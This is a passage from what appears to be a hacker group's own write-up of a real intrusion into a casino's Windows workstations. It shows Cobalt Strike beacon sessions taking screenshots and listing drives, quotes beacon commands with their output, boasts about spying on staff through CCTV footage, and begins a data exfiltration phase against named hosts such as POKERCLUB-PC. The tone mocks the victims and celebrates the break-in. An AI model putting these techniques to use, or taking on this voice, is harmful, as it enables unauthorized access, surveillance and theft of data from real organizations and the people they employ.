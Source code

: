 Go to **View** -> **Screenshots**

We can see you users ;)

![[screen_a6798773_1106456564.jpg]]


```
beacon> screenshot
[*] Tasked beacon to take screenshot
[+] host called home, sent: 199779 bytes
received screenshot of Program Manager from система (181kb)
```

Why the fuck do you have Windows 7 devices installed to this day and age users? I get it if you're using it for malware
analysis purposes or creating malware in a VM.
I just can't help why. Just install GNU+Linux on your machines if you want to save money!

![[screen_c521df38_825562406.jpg]]

### Data Exfiltration

Alright that's enough of my rambling. While we're popping new beacon sessions and took screenshots as we go. We found some particular names that does stands out ot us
after perform the first phase for internal recon and we had to look at the targets list like **POKERCLUB-PC**, **JOKERCLUB1**, **JOKERCLUB2**, **CCTV-UPGR**, **CCTV-UPRG2**,
**HERCULES**, etc. You may have seen our posts on telegram channel (https://t.me/GhostSecc) as you can tell it's the CCTV footages from those Windows workstations
and it was fun spying people from someone's computer lulz.

Now this is where the fun part or boring part or however you like to take it. Data exfiltration phase! It can be a quite daunting task and yes it is. Doing it manually through the
**Right-Click** -> **File Browser** just doesn't feel productive at all and who knows how many files you'll have to download them either through your main C&C or a dedicated server
to store the loot. This is why the command line is more powerful than you think user. It's handy when it comes with these situations after taking extensive notes to do a powershell
one-liner to enumerate how many files are found and what file extension files we need to look for. Since this is a Casino they only have documents just like most businesses nomally
does.

Let's take **POKERCLUB-PC** as an example. He was working on the spreadsheet file and it incidents this compromised host may contain sensitive documents.

![[screen_9812d886_874469498.jpg]]

After looking through the **File Browser** at the compromised workstation. We had to the check if there are more drives by clicking **List Drives** to
enumerate the machine even further. Look for mounts other than the default `C:\` drive. We saw `C:\PokerClub` and this is what it looks like.

```
beacon> shell dir /s C:\PokerClub
[*] Tasked beacon to run: dir /s C:\PokerClub
[+] host called home, sent: 50 bytes
[+] received output:
 Том в устройстве C имеет метку Windows 10
 Серийный номер тома: 0EB8-A421

 Содержимое папки C:\PokerClub

Вт 15.03.22  21:26    <DIR>          .
Вт 15.03.22  21:26    <DIR>          ..
Пн 10.01.22  04:22    <DIR>          2022 подготовка
Сб 29.01.22  09:03    <DIR>          backgground
Пт 06.08.21  07:54    <DIR>          BACKUP
Чт 02.12.21  04:14           120 448 Freebuy (4lvl)+Double Addon (12 по 20)new.tdt
```